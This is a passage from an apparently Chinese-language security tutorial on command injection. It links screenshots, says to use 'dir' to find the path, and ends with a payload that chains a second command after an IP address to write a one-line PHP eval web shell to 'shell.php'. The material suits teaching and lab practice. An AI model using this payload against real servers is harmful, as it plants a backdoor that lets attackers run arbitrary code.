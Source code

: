 ![images](/images/2019-03-15/exec02.png)

----

除了这些操作之外，还可以写shell ，<br>

首先使用 **dir** 命令 查看路径，<br>

![images](/images/2019-03-15/exec04.png)

----

然后使用命令写入文件：<br>
```php
127.0.0.1 && echo ^<?php eval($_POST[cmd]);?^> > shell.php
```

